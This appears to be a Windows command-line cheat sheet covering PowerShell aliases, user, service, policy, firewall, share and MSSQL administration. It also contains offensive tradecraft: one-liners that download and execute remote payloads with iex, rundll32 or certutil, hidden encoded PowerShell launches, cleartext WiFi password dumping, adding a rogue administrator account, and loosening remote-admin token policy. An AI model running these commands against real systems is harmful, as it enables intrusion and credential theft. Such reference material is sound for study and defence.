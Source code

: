 One-liners commands
===================

Here are some useful short commands for Windows systems that may be useful.


Basic PowerShell commands
-------------------------

* ``sls`` (``Select-String``): look for a pattern.

  Example:

  .. code-block:: sh

      # Search my-needle in the input
      sls my-needle

      # Search my-needle in files ending with .txt
      sls -Path *.txt -Pattern my-needle

  Documentation:

  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-string?view=powershell-6
  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_regular_expressions?view=powershell-6

* ``gcm`` (``Get-Command``): List cmdlets (PowerShell commands) matching a pattern.

  Example:

  .. code-block:: sh

      # List commands using "WMI" in their names
      gcm -noun *WMI*

PowerShell also provides commands to browse the filesystem.
Here is a correspondence table between PowerShell commands and commands from other systems, that are also available in PowerShell as aliases:

+-------------------------+--------------------------------------------------+----------------------------------------------+
|                         |                     Aliases                      |                                              |
|      cmdlet             +---------+-------------------+--------------------+ Description                                  |
|                         |   PS    | ``cmd.exe``       |   UNIX shell       |                                              |
+=========================+=========+===================+====================+==============================================+
| ``Get-Location``        | ``gl``  | ``pwd``           | ``pwd``            | Get the current node.                        |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Location``        | ``sl``  | ``cd``, ``chdir`` | ``cd``, ``chdir``  | Change the current node.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ChildItem``       | ``gci`` | ``dir``           | ``ls``             | List the objects stored at the current node. |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``New-Item``            | ``ni``  | ``md``, ``mkdir`` | ``mkdir``          | Create a directory.                          |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Item``            | ``gi``  |                   |                    | Return the properties of the current item.   |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Item``            | ``si``  |                   |                    | Define the content of an item.               |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-Item``           | ``cpi`` | ``copy``          | ``cp``             | Copy an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-Item``           | ``mi``  | ``move``          | ``mv``             | Move an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-Item``         | ``rni`` | ``rn``            | ``ren``            | Rename an object.                            |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Remove-Item``         | ``ri``  | ``del``, ``rd``,  | ``rm``, ``rmdir``  | Remove an object.                            |
|                         |         | ``erase``         |                    |                                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Content``         | ``gc``  | ``type``          | ``cat``            | Get the content of an object.                |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Content``         | ``sc``  |                   |                    | Define the content of an object.             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ItemProperty``    | ``gp``  |                   |                    | Return a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-ItemProperty``   | ``cpp`` |                   |                    | Copy a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-ItemProperty``   | ``mp``  |                   |                    | Move a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-ItemProperty`` | ``rnp`` |                   |                    | Rename a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Compare-Object``      |         | ``compare``       | ``diff``           | Compare several objects.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Write-Output``        |         | ``write``         | ``echo``           | Print something to the standard output.      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Invoke-WebRequest``   | ``iwr`` |                   | ``curl``, ``wget`` | Perform a HTTP request.                      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Help``            |         | ``help``          | ``man``            | Get the help associated with a cmdlet.       |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+


Download and run
----------------

Download and run a script

* PowerShell (``iex`` is an alias to ``Invoke-Expression``)::

    powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

    powershell.exe -exec bypass "iex (New-Object Net.Webclient).DownloadString('http://webserver/payload.ps1')"

* JavaScript through Rundll32 (used by Win32/Poweliks malware)::

    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

* Using ``certutil``::

    certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe

Source: https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/amp/

Downloading files with PowerShell::

    $content = (New-Object Net.WebClient).DownloadString("http://webserver/file.txt")

    # Save to a file
    Invoke-WebRequest -Uri http://webserver/file.txt -OutFile file.txt -UseBasicParsing

    # With BITS (Background Intelligent Transfer Service) (ipmo = Import-Module)
    ipmo BitsTransfer;Start-BitsTransfer -Source "http://webserver/file.txt" -Destination C:\Windows\Temp\

Run a PowerShell script::

    %windir%\System32\WindowsPowerShell\v1.0\powershell.exe -Noninteractive -ExecutionPolicy Bypass –Noprofile -file MyScript.ps1

Run PowerShell code endoded as UTF-16LE+Base64:

.. code-block:: sh

    # start /B : start application without creating a new window
    # -nop for -NoProfile : do not load the PowerShell profile
    # -sta for -Sta : start using a single-threaded apartment
    # -noni for -NonInteractive : does not present an interactive prompt
    # -w 1 or -w hidden or -win Hidden for -WindowStyle Hidden : hiden PowerShell window
    # -enc for -EncodedCommand : execute the command encoded in base64
    # -ep bypass or -exec bypass for -ExecutionPolicy bypass : set the default execution
    #       policy for the current session and saves it in $env:PSExecutionPolicyPreference
    #       (redundant when -enc is given)
    start /b powershell -nop -sta -w 1 -enc "$(iconv -t utf16le < payload.ps1 | base64)"


Proxy settings
--------------

Get the HTTP proxy which is currently configured::

    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable
    netsh winhttp dump

Add a HTTP proxy::

    netsh winhttp set proxy 127.0.0.1:3128


WiFi profiles
-------------

List available WiFi profiles::

    netsh wlan show profiles

Export WiFi profiles (username and password) to ``%APPDATA%\<profile>.xml``::

    cmd.exe /c netsh wlan export profile key=clear folder="%APPDATA%"

Source: https://securelist.com/shedding-skin-turlas-fresh-faces/88069/

In PowerShell, without writing any file::

    $results = (netsh wlan show profiles) |
        Select-String '\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} |
        %{(netsh wlan show profile name=$name key=clear)} |
        Select-String 'Key Content\W+\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} |
        %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }}

    # Display the results or record them in files
    $results
    $results | Format-Table -Wrap
    $results | Format-Table -AutoSize
    $results | Out-GridView
    $results | Export-Csv -Path .\wifi.csv -NoTypeInformation -Encoding ASCII
    $results | Out-File -FilePath .\wifi.txt -Encoding ASCII

Sources:

* https://jocha.se/blog/tech/display-all-saved-wifi-passwords
* https://www.tenforums.com/tutorials/27997-see-wireless-network-security-key-password-windows-10-a.html
* https://community.idera.com/database-tools/powershell/ask_the_experts/f/learn_powershell_from_don_jones-24/19610/convert-one-liner-to-more-readable-code


User and group management
-------------------------

Some commands to list and manage users and groups

.. code-block:: sh

    # Get information on the current user
    whoami
    whoami /groups
    whoami /priv
    whoami /all

    # Local users and groups manager
    lusrmgr.msc

    # net command on local accounts
    net user
    net localgroup

    # net command on Active Directory accounts
    net user /domain
    net group

    # query command
    query user

    # Get information about the current sessions on a server
    qwinsta
    query session

    # PowerShell, with MS Exchange cmdlet
    # Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010
    Get-User | Export-CSV C:\Temp\AllUsers.csv -NoTypeInfo

    # WMI (PowerShell)
    Get-WmiObject Win32_UserAccount
    Get-CimInstance -ClassName Win32_UserAccount
    Get-CimInstance -ClassName Win32_Group

    # Add an adminitrator user
    net user newuser password /add
    net localgroup Administrators newuser /add

Spawn an elevated prompt when UAC is enabled (User Account Control)::

    Start-Process -Verb RunAs PowerShell
    saps -verb runas powershell

In order to login as administrator to a remote machine without using the built-in administrator (RID 500), a registry key needs to be set.
This has been described in many blog posts:

* https://support.microsoft.com/en-us/help/942817/how-to-change-the-remote-uac-localaccounttokenfilterpolicy-registry-se
* https://blogs.msdn.microsoft.com/wmi/2009/07/24/powershell-remoting-between-two-workgroup-machines/
* https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/

::

    cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
    PowerShell Set-ItemProperty –Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System –Name LocalAccountTokenFilterPolicy –Value 1 –Type DWord


Enumerate live objects
----------------------

Enumerate all processes::

    tasklist /v
    query process *
    Get-Process
    # "gps" and "ps" are aliases of Get-Process

Enumerate all services::

    Get-Service | Export-CSV C:\Temp\AllServices.csv -NoTypeInfo
    gsv | epcsv C:\Temp\AllServices.csv -NoTypeInfo


Group Policy
------------

Edit Local Group Policy::

    gpedit.msc
    secpol.msc

Export the Local Group Policy::

    secedit /export /cfg system_config.cfg

    # With at least Windows Vista or Windows Server 2008
    gpresult /H GPReport.html

    # Display RSoP summary data (Resultant Set of Policies)
    gpresult /R

    # RSoP GUI
    RSOP.msc

Work on Group Policy Objects (GPO):

.. code-block:: sh

    # Launch the Group Policy Management Console
    gpmc.msc

    # Apply the GPO
    gpupdate /force

The Remote Server Administration Tools (RSAT) provides Group Policy PowerShell Cmdlets (https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/ee461027%28v=technet.10%29):

.. code-block:: sh

    Get-WindowsCapability -Online | ? Name -like 'Rsat.GroupPolicy.Management.Tools*'
    Get-GPOReport -All -ReportType Html -Path GpoReport.html

Logon scripts are located in folder ``%SystemRoot%\SYSVOL\sysvol\{domain DNS name}\Policies\{GUID of the GPO}\User\Scripts\Logon`` (on Domain controllers).
They can be implemented in VBScript (``.vbs`` extension) or PowerShell (``.ps1`` extension).
In GPMC, they are linked to a GPO using either:

* Computer Configuration -> Policies -> Windows Settings -> Scripts (Startup / Shutdown)
* User Configuration -> Policies -> Windows Settings -> Scripts (Logon/Logoff)

A third way of running scripts on a system consists in using Immediate Scheduled Tasks:

* Computer Configuration -> Preferences -> Control Panel Settings -> Scheduled Tasks


Software information
--------------------

In order to list the upgrades that have been applied, using DISM (Deployment Image Servicing and Management Tool)::

    dism /online /get-packages

In order to check for an applied update, with its KB number:

.. code-block:: sh

    dism /online /get-packages | findstr KB99999

    # systeminfo.exe enumerates the "hotfixes" too
    systeminfo.exe | findstr KB99999

    # WMI also provides such an information in
    # System.Management.ManagementObject#root\CIMV2\Win32_QuickFixEngineering
    wmic qfe get hotfixid | find "KB99999"
    wmic qfe | find "KB99999"

    # From PowerShell
    Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid}

    # https://docs.microsoft.com/en-gb/powershell/module/Microsoft.PowerShell.Management/Get-HotFix?view=powershell-5.1
    Get-HotFix -id KB99999

The software may be signed using a certificate in a certificate store.

.. code-block:: sh

    # Manage user certificates
    certmgr.msc

    # Manage local machine certificates
    certlm.msc


Boot configuration
------------------

::

    msconfig

    bcdedit /enum all


Installed software
------------------

.. code-block:: sh

    wmic product get "name,version" /format:csv > applications.csv


Firewall
--------

.. code-block:: sh

    wf.msc

    Get-NetFirewallProfile
    Show-NetFirewallRule

    netsh advfirewall export "C:\Users\Administrator\Desktop\advfirewallpolicy.wfw"
    netsh advfirewall show allprofiles
    netsh advfirewall show global
    netsh advfirewall firewall dump

    # On old versions of Windows
    netsh advfirewall dump


TCP port forwarding with netsh
------------------------------

::

    netsh interface portproxy add v4tov4 listenport=1234 listenaddress=192.0.2.42 connectport=80 connectaddress=10.13.37.1


Network shares
--------------

.. code-block:: sh

    # List the network shares currently used
    net use

    # List the shares on a server (use "localhost" for local shares)
    net view my-server /ALL

    # List shares using WMI (on a remote server or localy)
    $shares = Get-CIMInstance –Classname Win32_Share -computername my-server -filter "Type=0"
    $shares | foreach {
    "     Share Name   : " + $_.name + "
         Source Folder: " + $_.path + "
         Description  : " + $_.Description + "
         Caption      : " + $_.Caption + "
         Type         : " + ('0x{0:x}' -f $_.Type) + "
    "
    }

    # Mount a share to a drive letter
    net use /user:me Z: \\my-server\my-share
    New-PSDrive –Name "Z" -PSProvider FileSystem –Root "\\my-server\my-share"

In order to easily provide files to a Windows host from a Linux system, it is possible to use impacket to start a simple Samba server::

    smbserver.py -smb2support -username me -password mypass my-share /path/to/my-share


Alternate Data Streams
----------------------

Get files with ``Zone.Identifier`` alternate data stream (ADS)::

    Get-ChildItem -Recurse | Get-Item -Stream Zone.Identifier -ErrorAction SilentlyContinue | Select-Object FileName

Read an ADS::

    Get-Content -Stream Zone.Identifier .\my-application.exe

Remove an ADS::

    Remove-Item .\my-application.exe -Stream Zone.Identifier

When downloading a file from the Internet, ``dir`` shows a filename with suffix ``:Zone.Identifier:$DATA`` and with 26 bytes (each lines are ended by ``"\r\n"``::

    [ZoneTransfer]
    ZoneId=3

The Zone identifier is 0 for the local machine, 1 for the local intranet, 2 for trusted sites, 3 for the Internet or 4 for restricted sites.

The ADS ``Zone.Identifier`` may contain other fields such as ``ReferrerUrl=...``.

The empty ADS matches the usual content of a file. This means that the content is both accessible through ``filepath`` and ``filepath::$DATA``.


CSV and table viewer
--------------------

Display a simple CSV file in a simple GUI, from a PowerShell prompt::

    Import-Csv -Path file.csv | Out-GridView
    ipcsv -Path file.csv | ogv

In order to produce a CSV from a PowerShell command::

    ... | Sort-Object -Property Timestamp | Export-Csv file.csv -notypeinformation
    ... | sort -Property Timestamp | epcsv file.csv -notypeinformation

For a table in the CLI::

    ... | Format-Table
    ... | ft

In order to show a table as a list::

    ... | Format-List
    ... | fl


MSSQL client
------------

In order to connect to a MSSQL server from a PowerShell CLI (cf. https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection?view=netframework-4.7.2):

.. code-block:: sh

    $ConnectionString = "Server=MSSQL-SRV\MY-INSTANCE;Database=mydb;User ID=sa;Password=sa;"
    $SqlConnection = New-Object System.Data.SqlClient.SqlConnection($ConnectionString)
    $SqlConnection.Open()
    $SqlConnection.State
    # Result: "Open"

To run a trivial SQL query:

.. code-block:: sh

    # The verbose way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand
    $SqlCmd.CommandText = "SELECT 42"
    $SqlCmd.Connection = $SqlConnection
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter
    $SqlAdapter.SelectCommand = $SqlCmd
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

    # The more-compact way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT 42", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

In order to find out which tables the logged user has access, here are some queries:

* ``SELECT * FROM sys.databases``
* ``SELECT * FROM sys.tables``

The following commands export the first rows of every table to files, once a ``$SqlConnection`` has been created:

.. code-block:: sh

    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT * FROM sys.tables", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $AllTables = $DataSet.Tables[0] | Sort-Object -property name

    $AllTables | ForEach-Object {
        $tblName = $_.name
        $csvName = "dump_top_" + $tblName + ".csv"
        echo "Exporting data to " $csvName
        $SqlCmd = New-Object System.Data.SqlClient.SqlCommand(("SELECT TOP 10000 * FROM " + $tblName), $SqlConnection)
        $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
        $DataSet = New-Object System.Data.DataSet
        $SqlAdapter.Fill($DataSet)
        $DataSet.Tables[0] | Export-Csv $csvName -notypeinformation
    }

On a SQL Server, it is also possible to create a virtual drive (cf. https://docs.microsoft.com/en-us/sql/powershell/navigate-sql-server-powershell-paths?view=sql-server-2017):

.. code-block:: sh

    New-PSDrive -Name MYDB -Root SQLSERVER:\SQL\localhost\DEFAULT\Databases\mydb
    Set-Location MYDB:\Tables\Users
